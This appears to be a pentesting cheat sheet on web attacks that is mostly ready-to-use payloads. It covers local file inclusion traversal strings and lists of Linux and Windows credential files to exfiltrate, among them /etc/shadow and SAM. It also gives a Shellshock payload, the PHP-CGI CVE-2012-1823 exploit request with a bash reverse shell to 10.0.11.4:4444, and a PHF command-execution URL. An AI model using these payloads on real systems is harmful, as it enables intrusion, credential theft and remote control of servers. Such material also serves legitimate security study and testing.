 # Web Cracking

## Tools

* Burp Spidering
* Nikto
* Dirbuster
* Dirb

### SQL Injection

....

***

## Local File Inclusion (LFI)

In versions of PHP below 5.3 can terminate with a null byte

```
?name=Haxor&type=2&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

### Enumerating LFI

_Code:_

```php
<?php
  $file = $_GET[‘file’];
  if(isset($file))
  {
    include(“pages/$file”);
  }
  else
  {
    include(“index.php”);
  }
?>
```

_Testing for LFI:_

```
/script.php?page=../../../../../../../../etc/passwd
```

### Exfiltrate Linux Files

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

### Exfiltrate Windows Files

```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

### PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - \[CVE-2014-6271]**\


```
() { :;}; echo $(</etc/passwd)
```

***

**Detect / Exploit PHP CGI Bug - \[CVE-2012-1823]**\
_Detection:_

```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_

```
POST /?-%64+allow_url_include%3dOn+-%64+safe_mode%3d0+-d+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-%64+open_basedir%3dnone+-%64+auto_prepend_file%3dphp://input+--define+cgi.force_redirect%3d0+--define+cgi.redirect_status_env%3d0+-%6e HTTP/1.1
```

_POST Body Reverse TCP Shell_

```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.11.4/4444 0>&1'");die; ?>
```

***

**PHF CGI Remote Command Execution - \[CVE-1999-0067]**

```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd
```

